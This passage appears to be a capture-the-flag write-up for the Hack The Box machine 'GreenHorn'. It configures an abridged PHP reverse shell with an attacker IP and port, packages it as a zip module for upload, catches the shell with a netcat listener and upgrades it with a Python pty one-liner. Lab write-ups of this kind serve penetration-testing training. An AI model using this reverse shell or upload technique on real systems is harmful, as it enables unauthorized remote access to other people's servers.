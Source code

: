 <br />
Update the scripts LHOST and LPORT to your attack machine.

{% raw %}
```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.

<snip>

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.16.12';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

<snip>

?>
```
{% endraw %}

<br />
Zip it on up.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/greenhorn]
└─$ zip shell.zip shell.php 
  adding: shell.php (deflated 59%)
```
{% endraw %}

<br />
Install the shell.zip module.  Check the listener and catch the shell.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/greenhorn]
└─$ sudo nc -nlvp 443      
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.16.12] from (UNKNOWN) [10.10.11.25] 60994
Linux greenhorn 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 13:57:52 up  3:24,  0 users,  load average: 0.06, 0.03, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash");'
www-data@greenhorn:/$
```
{% endraw %}
